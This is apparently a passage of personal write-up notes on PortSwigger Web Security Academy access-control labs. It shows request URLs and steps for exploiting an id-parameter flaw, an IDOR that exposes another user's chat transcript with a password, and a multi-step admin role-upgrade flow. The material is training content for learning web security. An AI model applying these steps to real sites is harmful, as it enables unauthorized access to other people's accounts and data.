 There is weak access control on id parameter. We can access any user data at response. It is redirecting to login page. But the data is in redirect body.

### Lab: User ID controlled by request parameter with password disclosure

This lab has user account page that contains the current user's existing password, prefilled in a masked input.

`https://acef1faf1f9773a2c0c95a3d00a200af.web-security-academy.net/my-account?id=administrator`

```
<input required type=password name=password value='pa40wxzz5118q3ebk8xf'/>
```

There is no access control on id parameter. We can access any user data with it. The data can lead to vertical privilege escalation.

### Lab: Insecure direct object references

Insecure direct object references (IDOR) are a type of access control vulnerability that arises when an application uses user-supplied input to access objects directly.

This lab stores user chat logs directly on the server's file system, and retrieves them using static URLs.

```
Chat → View transcript
GET /download-transcript/2.txt
```

We can download any chat document with visiting the url.

```
GET /download-transcript/1.txt HTTP/1.1
---
You: Ok so my password is ssicu9unbdutm328j85t. Is that right?
```

### Lab: Multi-step process with no access control on one step

This lab has an admin panel with a flawed multi-step process for changing a user's role.

The workflow is as follows:

* GET /admin
*   POST /admin-roles

    username=carlos\&action=upgrade
*   POST /admin-roles

    action=upgrade\&confirmed=true\&username=carlos
* GET /admin

`GET /admin - Admin interface only available if logged in as an administrator`

`POST /admin-roles username=wiener&action=upgrade - "Unauthorized"`
